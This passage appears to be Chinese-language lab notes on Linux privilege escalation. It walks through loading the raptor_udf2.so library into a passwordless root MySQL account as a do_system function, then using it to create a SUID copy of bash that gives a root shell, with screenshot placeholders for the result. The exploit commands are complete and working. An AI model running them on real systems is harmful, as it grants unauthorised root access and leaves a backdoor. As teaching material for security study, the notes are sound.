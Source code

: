 以root用户身份使用空白密码连接到MySQL服务：

```
mysql -u root
```

在MySQL Shell上执行以下命令，以使用我们的已编译漏洞利用程序创建用户定义函数（UDF）“ do_system”：

```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```



使用该功能将/ bin / bash复制到/ tmp / rootbash并设置SUID权限：

```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

退出MySQL Shell（键入**exit** 或**\ q** 并按**Enter**），然后使用-p运行/ tmp / rootbash可执行文件，以获得具有root特权的shell：



##### 当前用户

![image-20200526064128234](assets/8.提权.assets/image-20200526064128234.png)

##### 其他用户

![image-20200526064453505](assets/8.提权.assets/image-20200526064453505.png)

##### hostname

![image-20200526064616173](assets/8.提权.assets/image-20200526064616173.png)

